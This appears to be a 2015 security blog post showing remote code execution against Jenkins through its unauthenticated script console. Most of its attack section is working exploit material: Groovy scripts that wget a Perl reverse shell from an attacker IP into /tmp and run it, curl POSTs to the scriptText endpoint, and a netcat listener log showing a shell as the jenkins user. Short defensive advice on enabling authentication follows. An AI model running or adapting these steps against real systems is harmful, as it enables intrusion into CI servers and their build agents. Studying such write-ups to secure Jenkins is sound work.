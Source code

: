 ```yaml
---
layout: blog_item
title:  "Jenkins RCE via Unauthenticated API"
date:   2015-08-18 10:08:10
author: Arr0way
description: 'Jenkins RCE via Unauthenticated API, an attacker can execute shell commands via curl requests against the Jenkins API script console'
categories: [Exploit]
tags:
- Jenkins
- Exploit
- RCE
---
```


* list element with functor item                                                
 {:toc} 

## Description: 

[Jenkins](https://jenkins-ci.org/) (continuous intergration server) default install allows for unauthenticated access to the API on the Jenkins Master Server (default behavour). Allowing unauthenticated access to the groovy script console, allowing an attacker to execute shell commands and / or connect back with a reverse shell.

<div class="note warning">
  <h5>DISCLAIMER</h5>
  <p>Disclaimer, I didn't discover this exploit, it has been discovered before... This vulnerability has been disclosed before to the Jenkins CI developers, who do <b>not consider it a vulnerability</b>.</p>
</div>


![Jenkins RCE API Exploit](https://i.imgur.com/lTas7UD.gif)

## Tested Versions 

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Software</th>
      <th>Version</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>Jenkins</code></p>
      </td>
      <td>
            <p>Ver 1.626</p>
      </td>
       </tr>
      <tr>
      <td>
        <p><code>Jenkins</code></p>
      </td>
      <td>
            <p>Ver 1.638</p>
      </td>
      </tr>

      </tbody>
</table>
</div>

## Tested Operating Systems 

An effort to test all affected OS's, showing the severity of the exploit (e.g. jenkins shell) for the default OS packaged version. 

<div>
<table>
  <thead>
    <tr>
      <th>Operating System</th>
      <th>Default Package Expoit</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>CentOS 6 - Jenkins RPM via Jenkins YUM Repo</code></p>
      </td>
      <td>
            <p>shell as user jenkins</p>
      </td>
      </tr>
      </tbody>
</table>
</div>

## Instructions 

This is really basic, I made a few small groovy scripts to execute the shell commands I wanted via Jenkins API (I recall having some issues runing more than one command at a time via groovy), I then executed them using Curl. 

### groovy script wget shell

Script to wget perl reverse shell to target and copy it to /tmp/shell. 

{% highlight java %}
   def command = "wget http://192.168.145.128/perl-reverse-shell.pl -O /tmp/shell"
   def proc = command.execute()
   proc.waitFor()
   
   println "Process exit code: ${proc.exitValue()}"
   println "Std Err: ${proc.err.text}"
   println "Std Out: ${proc.in.text}"
{% endhighlight %}

<div class="note tip">
  <h5>Jenkins requires /tmp to have exec perms</h5>
  <p>By default Jenkins requires <code>/tmp</code> to have the execute mount option set, so you should be safe to land shells there on Jenkins servers.</p>
</div>


### groovy script execute shell command

{% highlight java %}
    def command = "perl /tmp/shell"
    def proc = command.execute()
    proc.waitFor()              

    println "Process exit code: ${proc.exitValue()}"
    println "Std Err: ${proc.err.text}"
    println "Std Out: ${proc.in.text}"
{% endhighlight %}

### Execute the Groovy Scripts via scriptText Jenkins API

{% highlight bash %}
curl -d "script=$(<./wget.groovy)" -X POST http://192.168.30.130:8080/scriptText
curl --data-urlencode  "script=$(<./execute.groovy)" -X POST http://192.168.30.130:8080/scriptText
{% endhighlight %} 

### Get Shell 

{% highlight bash %}
    [root:~/pwn-jenkins]# nc -v -n -l -p 443
    listening on [any] 443 ...
    connect to [192.168.30.128] from (UNKNOWN) [192.168.30.130] 42340
     21:16:17 up 15:17,  1 user,  load average: 0.23, 0.31, 0.17
     USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
     root     tty1     -                05:59    3:40   0.12s  0.12s -bash
     Linux localhost.localdomain 2.6.32-573.3.1.el6.x86_64 #1 SMP Thu Aug 13 22:55:16 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     /
     apache: cannot set terminal process group (-1): Invalid argument
     apache: no job control in this shell
     apache-4.1$ whoami
     whoami
     jenkins
     apache-4.1$ id
     id
     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     apache-4.1$
{% endhighlight %}

<div class="note info">
  <h5>Jenkins Does Not Consider this a Vulnerability</h5>
  <p>Dispite the fact the web application is insecure by default (the default
  install leaves the API and webapp exposed without authentication), Jenkins do
  not consider this a vulnerability. Your best option is to configure
  authentication by following the <a href="https://wiki.jenkins-ci.org/display/JENKINS/Standard+Security+Setup">Securing Jenkinsi Guide</a></p>
</div>

## More info about Jenkins 

Jenkins is a tool consisting of a master and a slave, the master server
schedules and runs jobs for the jenkins slaves to execute. The default
installation configures the master as a slave server, allowing anyone with access to the Jenkins master
to execute arbitrary code on the master (via the slave). 

A more secure solution would be isolating the role of the master server. 
Currently if a Jenkins master server is compromised, it's likely an attacker
will also be able to execute jobs / run shell scripts on the Jenkins slaves. 

An additional ACL option within Matrix-based security to disable API, and
another for script
console / execution on the Jenkins Master would be a good idea. Currently the
only options is to disable all script access for the user/group, which appears to include the
slaves. 

Be mindful of the fact that, by giving access to the slaves via the Jenkins Master,
you're essentially giving the user shell level access to the slave (or at least
the ability to execute shell commands on the slave machine).

## More Resources 

More links about this vuln and similar Jenkins vulns below:

* [http://leonjza.github.io/blog/2015/05/26/jenkins-to-meterpreter-toying-with-powersploit/](http://leonjza.github.io/blog/2015/05/26/jenkins-to-meterpreter-toying-with-powersploit/)
* [http://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console](http://leonjza.github.io/blog/2015/05/26/jenkins-to-meterpreter-toying-with-powersploit/) 
